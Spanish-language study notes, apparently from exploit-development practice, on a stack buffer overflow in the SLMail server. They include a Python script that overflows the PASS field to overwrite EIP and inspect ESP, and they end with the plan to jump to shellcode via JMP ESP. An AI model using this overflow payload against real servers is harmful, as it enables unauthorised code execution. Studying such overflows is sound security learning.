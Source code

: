 #BufferOverflow #ShellCode #SLMail 

Una vez tenemos calculado el offset(cantidad de caracteres a introducir antes del EIP), si introducimos cuatro caracteres adicionales estos van a estar representados en el *EIP* como dirección.
Una vez sobrescrito el *EIP* veremos que los datos se almacenan al comienzo de la pila(stack) en el registro *ESP (Extended Stack Pointer)*, este es un registro de la CPU que se utiliza para manejar la pila en un programa.
La pila es una zona de memoria temporal que se utiliza para almacenar valores y *direcciones de retorno* de las funciones a medida que se van llamando al programa.
Una vez identificados estos caracteres en la memoria la idea principal es introducir una *shellcode* en esa dirección.

00.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	after_eip = b"C"*200 #Cadena para ver donde se almacenan los demas valores en la pila despues del EIP
	
	payload = before_eip + eip + after_eip
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
		
```
Lo ejecutamos y en el Inmunity veremos que en  el registro *ESP* y nos muestra una dirección, si hacemos clic derecho y follow in dump nos muestra la representación de esa dirección(`Codigo hexadecimal`).
Esto nos permite modificar el *EIP* haciendo que apunte a otra dirección (jump ESP), haciendo que apunte a una dirección en la que se ejecute un opCode(operation Code) de jump ESP.